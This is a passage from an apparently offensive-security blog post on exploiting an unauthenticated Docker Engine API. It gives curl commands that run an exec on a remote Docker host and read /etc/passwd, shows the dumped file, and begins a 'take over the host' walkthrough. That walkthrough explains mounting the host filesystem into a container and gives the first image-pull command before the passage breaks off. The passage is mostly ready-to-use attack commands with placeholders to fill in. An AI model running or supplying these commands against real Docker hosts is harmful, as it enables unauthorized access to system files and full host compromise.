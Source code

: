 Curl command:

```
curl -i -s -X POST \
-H 'Content-Type: application/json' \
--data-binary '{"Detach": false,"Tty": false}' \
http://<docker_host>:PORT/exec/<exec_id>/start
```

**Expected Response:**

```
HTTP/1.1 200 OK
Content-Type: application/vnd.docker.raw-stream
Api-Version: 1.39
Docker-Experimental: false
Ostype: linux
Server: Docker/18.09.4 (linux)

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Seeing the nice delimited format of `/etc/passwd` is beautiful, isn't it? Well I'm sure to the people who are vulnerable it isn't but to us, it is.

## Bonus: Take over the host
Starting a docker container with the root of the host mounted to a volume on the container will allow commands to be executed against the host's filesystem. Since the vulnerability discussed in this post allows you to have full control of the API, it is possible to take control of the docker host. I won't get into the crazy details, but here are the curl commands to do this:

*Note: don't forget to change the docker_host, port, and container_ID (where applicable)*

**1) Download the ubuntu image** 

```
curl -i -s -k  -X 'POST' \
-H 'Content-Type: application/json' \
http://<docker_host>:PORT/images/create?fromImage=ubuntu&tag=latest
```
